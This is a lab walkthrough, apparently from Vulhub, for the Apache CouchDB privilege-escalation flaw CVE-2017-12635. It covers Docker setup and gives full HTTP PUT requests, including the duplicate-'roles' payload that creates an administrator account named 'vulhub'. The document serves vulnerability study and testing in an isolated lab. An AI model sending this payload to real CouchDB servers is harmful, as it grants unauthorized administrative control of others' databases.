

Apache Couchdb Remote Privilege Escalation (CVE-2017-12635)¶
Apache CouchDB is an open-source document-oriented NoSQL database, implemented in Erlang. CouchDB uses multiple formats and protocols to store, transfer, and process its data. It uses JSON to store data, JavaScript as its query language using MapReduce, and HTTP for an API.
Due to differences in the Erlang-based JSON parser and JavaScript-based JSON parser, it is possible in Apache CouchDB before 1.7.0 and 2.x before 2.1.1 to submit _users documents with duplicate keys for roles used for access control within the database, including the special case _admin role, that denotes administrative users.
Reference link.
- https://justi.cz/security/2017/11/14/couchdb-rce-npm.html
- https://www.exploit-db.com/exploits/44498
- http://bobao.360.cn/learning/detail/4716.html
Setup Environment¶
Compile and start environment.
docker compose up -d
After the environment is started, browse http://your-ip:5984/_utils/ to see a web page, which means Couchdb has been started successfully. But you can do nothing without authentication.
Exploit¶
This is a normal request to add a user.
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 90
{
"type": "user",
"name": "vulhub",
"roles": ["_admin"],
"password": "vulhub"
}
As you can see, a 403 error is returned: {"error": "forbidden", "reason": "Only _admin may set roles"}, which means only administrator can use the endpoint.

To bypass the restriction by sending a request containing duplicate roles.
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 108
{
"type": "user",
"name": "vulhub",
"roles": ["_admin"],
"roles": [],
"password": "vulhub"
}
Successfully created a user vulhub, with the password vulhub.

Log in.
